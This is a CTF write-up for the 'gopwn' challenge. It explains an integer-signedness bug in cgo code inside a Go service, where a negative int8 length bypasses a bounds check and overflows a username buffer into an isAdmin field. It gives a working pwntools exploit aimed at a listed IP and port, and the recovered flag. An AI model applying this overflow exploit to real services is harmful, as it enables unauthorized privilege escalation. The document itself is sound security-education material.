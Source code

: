 https://ctftime.org/event/2660

# gopwn (pwn)

Recently, rumors emerged on the Dark Web, whispering about a secret flaw in THCity's government systems. A vulnerability that would allow access to sensitive information, threatening to reveal secrets that could tip the balance of the city.

Jhonny Jhon Jhonson, a dynamic young executive with the Aurora Initiative has entrusted you with the task of testing the security of the systems. His insistence on the extent of the damage such a vulnerability could cause resonates deeply with you. The idea that a breach in their systems could compromise critical infrastructure, or worse, allow outside forces to take control, sends a chill down your spine. You're determined to find the breach, whatever the cost. The future of the city may well depend on it.

## Analysis

We can see a very interesting feature of go in the following code. The ability to mixin c code:

```go
// #include <stdint.h>
// #include <stdlib.h>
// #include <string.h>
//
// #define MAX_SIZE_USERNAME 64
//
// struct User_t {
//   char username[MAX_SIZE_USERNAME];
//   int isAdmin;
// };
//
// int checkLength(int8_t length) {
//   if (length < MAX_SIZE_USERNAME) {
//     return 1;
//   }
//
//   return 0;
// }
//
// void init_user(struct User_t *user) {
//   user->isAdmin = 0;
//   memset(user->username, '\0', MAX_SIZE_USERNAME);
// }
//
// void setLoginUsername(char dst_username[MAX_SIZE_USERNAME], void *src_username, int8_t length) {
//   memcpy(dst_username, src_username, (uint8_t)length);
//   dst_username[MAX_SIZE_USERNAME-1] = '\0';
// }
import "C"
```

You can access this c code via `C` as follows:

```go
if C.checkLength(c_length) == 0 {
    //...
}
```

We must send data according to the following `Packet` format:

```go
type Packet struct {
    // -- Packet header
    Type   PacketType
    Length int8
    // -- Packet header end
    Data []byte
}
```

We can see from the following code that 1, 2, 3, and 4 are valid values for the `int8` representing the packet type:

```go
type PacketType int8

const (
    Login PacketType = 1 + iota
    Logout
    Flag
    Exit
)
```

We can see from the following code that the packet's length must not return 0 when passed to `checkLength`:

```go
// Check length is less than max size allowed
c_length := C.int8_t(packet.Length)
if C.checkLength(c_length) == 0 {
    resPacket.Response = "Packet exceeds max length !\n"
    resPacket.Length = int16(len(resPacket.Response))
    con.Write(resPacket.Bytes())
    continue
}
```

We can see that `checkLength` will return 1 when we supply a negative value, such as 0xff, for `length`:

```go
// int checkLength(int8_t length) {
//   if (length < MAX_SIZE_USERNAME) {
//     return 1;
//   }
//
//   return 0;
// }
//
```

We can see in the following code that a negative value for `length` will be treated as a positive value up to 0xff by `setLoginUsername`:

```go
// void setLoginUsername(char dst_username[MAX_SIZE_USERNAME], void *src_username, int8_t length) {
//   memcpy(dst_username, src_username, (uint8_t)length);
//   dst_username[MAX_SIZE_USERNAME-1] = '\0';
// }
```

This would let us overflow the username into the bytes that represent the `isAdmin` flag in a `User` struct.

## Solution

1) Send a `Login` packet with a large negative length that lets us overwrite the value of `isAdmin`
2) Send a `Flag` packet now that the value of `isAdmin` is `1`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
p = remote("74.234.198.209", 33243)

payload = b""
payload += p8(1) # login
payload += p8(0xff)
payload += b"A" * 64
payload += p64(1) # isAdmin
p.sendline(payload)

payload = b""
payload += p8(3) # flag
payload += p8(0)
p.sendline(payload)

p.readuntil(b"THC{")
print("THC{" + p.readuntil(b"}").decode()) # THC{C4r3fUL_w17h_1N7_0v3rf10w_U51n9_C_1N_G0}
```

## Flag
`THC{C4r3fUL_w17h_1N7_0v3rf10w_U51n9_C_1N_G0}`

smiley 2025/04/12
